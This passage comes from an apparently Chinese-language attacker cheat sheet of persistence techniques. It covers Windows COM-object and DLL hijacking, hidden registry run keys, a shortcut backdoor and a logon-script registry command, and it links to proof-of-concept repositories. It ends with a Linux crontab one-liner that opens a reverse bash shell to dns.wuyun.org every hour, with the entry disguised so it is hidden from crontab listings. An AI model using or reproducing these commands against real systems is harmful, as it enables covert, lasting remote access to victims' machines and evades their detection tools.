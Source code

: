利用MSDTC服务加载dll，实现自启动，并绕过Autoruns对启动项的检测 利用：向 %windir%\system32\目录添加dll并重命名为oci.dll

**24、Hijack CAccPropServicesClass and MMDeviceEnumerato**

利用COM组件，不需要重启系统，不需要管理员权限 通过修改注册表实现 POC：[https://github.com/3gstudent/COM-Object-hijacking](https://github.com/3gstudent/COM-Object-hijacking)

**25、Hijack explorer.exe**

COM组件劫持，不需要重启系统，不需要管理员权限 通过修改注册表实现

```
HKCU\Software\Classes\CLSID{42aedc87-2188-41fd-b9a3-0c966feabec1}
HKCU\Software\Classes\CLSID{fbeb8a05-beee-4442-804e-409d6c4515e9}
HKCU\Software\Classes\CLSID{b5f8350b-0548-48b1-a6ee-88bd00b4a5e7}
HKCU\Software\Classes\Wow6432Node\CLSID{BCDE0395-E52F-467C-8E3D-C4579291692E}
```

**26、Windows FAX DLL Injection**

通过DLL劫持，劫持Explorer.exe对`fxsst.dll`的加载 Explorer.exe在启动时会加载`c:\Windows\System32\fxsst.dll`(服务默认开启，用于传真服务)将payload.dll保存在`c:\Windows\fxsst.dll`，能够实现dll劫持，劫持Explorer.exe对`fxsst.dll`的加载

**27、特殊注册表键值**

在注册表启动项创建特殊名称的注册表键值，用户正常情况下无法读取(使用Win32 API)，但系统能够执行(使用Native API)。

[《渗透技巧——"隐藏"注册表的创建》](https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-%E9%9A%90%E8%97%8F-%E6%B3%A8%E5%86%8C%E8%A1%A8%E7%9A%84%E5%88%9B%E5%BB%BA/)

[《渗透技巧——"隐藏"注册表的更多测试》](https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-%E9%9A%90%E8%97%8F-%E6%B3%A8%E5%86%8C%E8%A1%A8%E7%9A%84%E6%9B%B4%E5%A4%9A%E6%B5%8B%E8%AF%95/)

**28、快捷方式后门**

替换我的电脑快捷方式启动参数 POC : [https://github.com/Ridter/Pentest/blob/master/powershell/MyShell/Backdoor/LNK\_backdoor.ps1](https://github.com/Ridter/Pentest/blob/master/powershell/MyShell/Backdoor/LNK_backdoor.ps1)

**29、Logon Scripts**

```
New-ItemProperty "HKCU:\Environment\" UserInitMprLogonScript -value "c:\test\11.bat" -propertyType string | Out-Null
```

**30、Password Filter DLL**

**31、利用BHO实现IE浏览器劫持**

**Linux**

**crontab**

每60分钟反弹一次shell给dns.wuyun.org的53端口

```
#!bash
(crontab -l;printf "*/60 * * * * exec 9<> /dev/tcp/dns.wuyun.org/53;exec 0<&9;exec 1>&9 2>&1;/bin/bash --noprofile -i;\rno crontab for `whoami`%100c\n")|crontab -
```
